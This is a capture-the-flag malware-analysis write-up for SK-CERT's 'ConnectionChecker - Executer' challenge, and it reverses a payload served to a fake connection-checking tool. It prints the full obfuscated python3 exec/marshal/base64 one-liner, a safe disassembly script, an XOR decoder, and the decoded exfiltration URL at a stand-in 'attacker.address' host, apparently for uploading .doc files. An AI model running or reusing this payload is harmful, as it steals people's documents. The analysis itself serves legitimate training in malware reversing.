


# ConnectionChecker - Executer

| Titel          | Kategorie | flag | Difficulty |
| :---        |    :----   |:--- |  :--- |
| ConnectionChecker - Executer | Malware Analysis and Reverse Engineering  | SK-CERT{py7h0n_p4yl04d} | easy (1 filled star) |

## Description
It seems that this "tool" is executing a payload. Can you determine what it does?

## Attachments
CheckConnection.jar
(Follow-up challenge to ConnectionChecker - Lies)

## Solution
For this one I analyzed the response of the external server. With some print statements and some debugging I was able to find the response of the server:

``` bash
/usr/bin/python3 -c "import base64, marshal, sys; exec(marshal.loads(base64.b64decode('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')[(16 if sys.version_info >= (3,7) else 8):]), globals())"
```

When looking at the response I first tried to decode the Base64 string but that just gave me a lot of gibberish. So I had to shift my focus to the marshal module. With the following code I disasembled the marshal code:

``` python
import base64
import marshal
import dis
import sys

data = "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"

# Python 3.7+ skips 16 bytes, older versions skip 8
offset = 16 if sys.version_info >= (3, 7) else 8

# Step 1: Decode the base64
decoded = base64.b64decode(data)

# Step 2: Skip offset and load marshaled object
code = marshal.loads(decoded[offset:])

# Step 3: Disassemble the code instead of executing it
dis.dis(code)
```

This then printed a lot of stuff to the console. By reading through the disassembly I was able to find some interesting strings:




These two first string looks like a base64 encoded string. So I tried to decode that but it din't produce anything useful. So I had to look for another way to decode the string. With some trial and error I found out that the string was actually decoded with XOR and the second string was the key. So I wrote a small script to decode the string:

``` python
import base64

key = "UIGioepxhWnwGIOK"
data = base64.b64decode("IGl6SU0NBAwYbUFYJj07KjYiIhtBBBQcGjIdBGglKio+FiEAAwBTKyN6LTIVHTQ7LH4vWQE6AEwRO15DIzRt")

out = ''.join(chr(b ^ ord(key[i % len(key)])) for i, b in enumerate(data))
print(out)
```

When running the script I got the following output:

``` bash
u = "http://attacker.address/leak_file#SK-CERT{py7h0n_p4yl04d}"
```

There it was, the flag was SK-CERT{py7h0n_p4yl04d}.